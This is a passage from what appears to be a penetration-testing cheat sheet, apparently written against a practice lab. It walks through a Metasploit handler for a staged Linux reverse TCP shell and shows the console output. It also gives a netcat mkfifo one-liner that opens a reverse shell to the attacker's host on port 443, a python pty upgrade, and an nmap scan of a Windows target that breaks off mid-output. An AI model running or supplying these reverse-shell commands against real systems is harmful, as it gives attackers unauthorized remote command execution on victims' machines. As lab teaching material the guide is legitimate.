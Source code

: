 
### Staged Meterpreter Shell - Linux

Use `msfconsole` to create `multi/handler` and load the payload `linux/x64/shell/reverse_tcp`, which is `staged`, and hence can evade firewalls and antivirus. The `exploit` is given in background, and hence sessions will not be loaded by default.
{% capture code %}{% raw %}msf5 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set LHOST <local-ip>
LHOST => <local-ip>
msf5 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf5 exploit(multi/handler) > set PAYLOAD linux/x64/shell/reverse_tcp
PAYLOAD => linux/x64/shell/reverse_tcp
msf5 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on <local-ip>:443 {% endraw %}{% endcapture %} {%include code.html code=code %}

Activate the `reverse shell` from the attacker.
{% capture code %}{% raw %}mkfifo /tmp/f ; nc -nv <local-ip> 443 < /tmp/f | /bin/sh > /tmp/f 2>&1 ; rm -rf /tmp/f{% endraw %}{% endcapture %} {%include code.html code=code %}

An output similar to below will be obtained indicating the connection established to `msfconsole` terminal.
{% capture code %}{% raw %}(UNKNOWN) [<local-ip>] 443 (https) open{% endraw %}{% endcapture %} {%include code.html code=code %}

In the `msfconsole` terminal, bring the session to foreground for interaction. Use `python` to spawn `bash` shell. The session will be stabilised and sanitised by default by `msfconsole`.
{% capture code %}{% raw %}msf5 exploit(multi/handler) > [*] Sending stage (38 bytes) to <target-ip>
[*] Command shell session 1 opened (<local-ip>:443 -> <target-ip>:45518) at 2021-04-13 11:20:09 +0100

msf5 exploit(multi/handler) > sessions 1
[*] Starting interaction with 1...

python3 -c 'import pty ; pty.spawn("/bin/bash")'
shell@linux-shell-practice:~$ ^C
Abort session 1? [y/N]  y

[*] <target-ip> - Command shell session 1 closed.  Reason: User exit
msf5 exploit(multi/handler) >{% endraw %}{% endcapture %} {%include code.html code=code %}


### Enumeration - Windows

Check the services running in the target.
{% capture code %}{% raw %}nmap -Pn -T4 -sS -F <ip>{% endraw %}{% endcapture %} {% include code.html code=code %}

An output similar to below will be obtained.
{% capture code %}{% raw %}Starting Nmap 7.60 ( https://nmap.org ) at 2021-04-13 13:34 BST
Nmap scan report for <hostname> (<target-ip>)
Host is up (0.0011s latency).
Not shown: 94 closed ports
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
443/tcp  open  https
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
MAC Address: 02:B4:EB:52:EE:FD (Unknown)
